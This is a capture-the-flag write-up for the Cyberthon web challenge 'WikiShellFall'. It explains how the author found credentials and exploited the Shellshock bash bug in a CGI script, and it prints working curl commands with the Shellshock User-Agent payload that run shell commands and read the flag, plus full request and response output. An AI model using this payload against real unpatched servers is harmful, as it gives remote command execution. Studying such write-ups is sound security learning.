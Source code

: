 # WikiShellFall

### Web Services // 1500 Points // 0 Solves

*This challenge was solved after Cyberthon ended.*

*This writeup is incomplete. More information is needed and may be added.*

## Solution

Upon looking at this challenge, my first thought was that the solution would be a known exploit, because the page was using a framework. Hint 3 ("What is significant about bash, and the date?") was what told me that it was [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This was confirmed with a CSIT engineer (I was unsure since the date was _before_ the Shellshock vulnerability was discovered. I guess the narrative is that the server wasn't updated since then, leaving it exposed since Shellshock was undiscovered for three years).

Firstly, to get the easy stuff out of the way:

* Username: `Baba Ali` (from the frontpage: "This is the personal wiki of Baba Ali")
* Password: `Ek6OaGHk8ZRP3.wI` (comment in the source code of the front page)

### Surprised Shell

[This page](http://garage4hackers.com/showthread.php?t=6902) and [this page](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/) were almost basic Shellshock guides. If a request with any header with the contents of the Shellshock payload is sent, an arbitrary command can be run:

```
curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
```

* `--user 'Baba Ali:Ek6OaGHk8ZRP3.wI'`: sets the authentication, since auth is handled by Nginx (i.e. CGI won't be run if Nginx doesn't allow it to)
* `-A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")'`: sets the user agent (an HTTP header) to the Shellshock payload
	* The payload returns (in a header) the output of the command in the brackets, formatted properly
	* `/bin/bash -c` executes the following command. For some reason, just using `$()` results in `An error occurred while parsing CGI reply` being replied. Further investigations are needed. `/bin/sh` works as well.
* `-v`: verbose. Makes `curl` print the headers

The payload will be printed in the headers for an unknown reason. I believe that this is because there's a separator between the headers and the body being sent by CGI, but I'm not too sure. This writeup may be updated in the future with additional information. What this _means_, however, is that we must prepend "something: " in front of the output to make this a valid HTTP response header, so that Nginx doesn't freak out (you may get a `An error occurred while reading CGI reply (no response received)` error).

The output of an `ls` was odd, because each separator corresponded to a new HTTP header, leading to this weird result:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "res:" $(/bin/bash -c "ls")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/min
isleep.cgi

< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:33:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive

# Important bits below
< res: add-attributes.xsl
< buildpage.sh:
< flag:
< minisleep.cgi:
< rebuild_all_pages.sh:
...
```

After doing this, we can `cat` the flag:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
*   Trying 128.199.134.10...
* TCP_NODELAY set
* Connected to p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg (128.199.134.10) port 11345 (#0)
* Server auth using Basic with user 'Baba Ali'
> GET /cgi/minisleep.cgi HTTP/1.1
> Host: p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345
> Authorization: Basic QmFiYSBBbGk6RWs2T2FHSGs4WlJQMy53SQ==
> User-Agent: () { :;}; echo "Flag:" $(/bin/bash -c "cat flag")
> Accept: */*
>
< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:40:49 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< Flag: Cyberthon{update-y0ur-systemz-8W.wqDei}
...
```

## Flag

```
Cyberthon{update-y0ur-systemz-8W.wqDei}
```

## Takeaways

Oh are there many.

1. If everyone is exploiting Shellshock through the User Agent, don't look into how the CGI script works
2. Point 1, except when it's obvious that there aren't any environment variables to exploit anyways, obviously
3. Don't give up if something doesn't work on the first try (we did 1, because we didn't know we had to format the response as a header in the beginning)
4. High point challenges can actually have simple solutions as well (we did not expect the password to be in a commend for a looong while)
5. ~~Firefox is surprisingly good at things it's not meant for~~
